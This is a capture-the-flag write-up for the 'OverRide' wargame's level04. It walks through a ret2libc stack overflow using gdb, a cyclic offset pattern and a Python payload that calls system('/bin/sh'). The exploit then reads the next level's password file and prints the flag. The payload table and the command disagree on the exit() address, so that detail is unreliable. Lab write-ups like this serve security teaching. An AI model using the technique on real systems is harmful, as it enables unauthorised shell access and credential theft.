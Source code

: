 
# Ret2libc again x2

In this level we are provided with a program which takes a ShellCode as input.

```
level04@OverRide:~$ ./level04
Give me some shellcode, k
```

Basically this program launches a **`fork()`**, and in this process we have a **`gets()`**, since the stack will be popped in the classic way, we can use a ret2libc.

In order to calculate the offset we will do as usual, inject the pattern and calculate it, however we will need to set a special option in order to access the child correctly: **`set follow-fork-mode child`**

```
(gdb) set follow-fork-mode child
(gdb) run
Starting program: /home/users/level04/level04
[New process 2131]
Give me some shellcode, k
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 2131]
0x41326641 in ?? ()
```

Here is the payload that we will inject :
B * 156 -> *OFFSET*
\xd0\xae\xe6\xf7 -> **`system()`** addr
\xd0\xae\xe6\xf7 -> **`exit()`** addr
\xec\x97\xf8\xf7 -> **`"/bin/sh"`** string addr

```py
python -c "print 'B' * 156 + '\xd0\xae\xe6\xf7' + '\x70\xeb\xe5\xf7' + '\xec\x97\xf8\xf7'" > /tmp/boom
```

```
level04@OverRide:~$ cat /tmp/boom - | ./level04
Give me some shellcode, k
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```

> flag: 3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
